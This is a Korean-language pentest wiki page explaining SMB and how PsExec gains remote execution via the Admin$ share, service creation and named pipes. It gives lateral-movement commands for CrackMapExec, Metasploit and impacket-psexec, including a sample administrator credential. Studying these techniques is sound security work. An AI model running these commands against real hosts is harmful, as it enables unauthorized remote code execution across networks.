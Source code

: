 # SMB 와 PsExec

### SMB

SMB(Server Message Block)은 같은 네트워크내의 다른 호스트의 파일, 쉐어, 그리고 프린터를 사용하고 공유하기 위해서 마이크로소프트사에서 만든 프로토콜이다.&#x20;

원래는 파일을 공유하려고 만든 프로토콜이지만, 공격자들이 횡적이동 용도로도 쓰일 수 있다. 파일 공유 프로토콜이 어쩌다 쉘을 얻을 수 있는 프로토콜이 되었을까?&#x20;

### PsExec&#x20;

PsExec는 Mark Russinovich가 1990년대 후반에 발표한 Sysinternals 툴들 중 하나로, SMB를 이용한 원격 관리 프로그램이다. PsExec는 다음의 방식으로 다른 호스트에서 "쉘"을 얻는다.

1. 타겟 호스트의 `Admin$` 쉐어에 접근해 쉘을 시작하는 윈도우 서비스 PE 파일(`PSEXECSVC`)을 업로드한다.&#x20;
2. 타겟 호스트의 DCE/RPC를 기반으로 Windows Service Control Manager (SCM) API를 이용해 `PSEXECSVC` 서비스를 만들고, 등록한 뒤, 시작한다.&#x20;
3. `PSEXECSVC` 는 네임드 파이프를 생성한 뒤 파이프를 이용해 인풋을 받고, 호스트에서 실행한 뒤, 아웃풋으로 결과물을 반환한다.&#x20;

### 전제 조건

* 타겟 호스트의 Local Administrator 권한을 갖고 있는 계정/비밀번호&#x20;
* 타겟 호스트가 SMB 서비스를 사용하고 있으며 방화벽으로 막아놓지 않는 경우
* `File and Print Sharing` 활성화, `Simple File Sharing` 비활성화 (디폴트)

### 공격&#x20;

다양한 툴들에 있는 PsExec의 `PSEXECSVC` 서비스 PE파일은 윈도우 디펜더에 기본적으로 막히는 경우가 많다. 따라서 실무에선 SMB 횡적이동 보단 WMI나 WinRM을 더 많이 쓰는 편이다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec

```
# CMD
cme smb <ip> -u <user> -p <pass> -d <domain> -x <command>

# Powershell
cme smb <ip> -u <user> -p <pass> -d <domain> -X <command>
```



MetaSploit

```
use exploit/windows/smb/psexec
set rhosts <ip>
set smbuser <user>
set smbdomain <domain>
set smbpass <pass>
exploit 
```

&#x20;

Impacket - Psexec

```
impacket-psexec '<domain>/<user>:<pass>'@<ip>

# 예시 
impacket-psexec 'choi.local/Administrator:Password123!'@192.168.40.150
```
{% endtab %}
{% endtabs %}



### 레퍼런스&#x20;

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}

{% embed url="https://www.itprotoday.com/windows-server/psexec-explainer-mark-russinovich" %}

{% embed url="https://www.rapid7.com/blog/post/2013/03/09/psexec-demystified/" %}
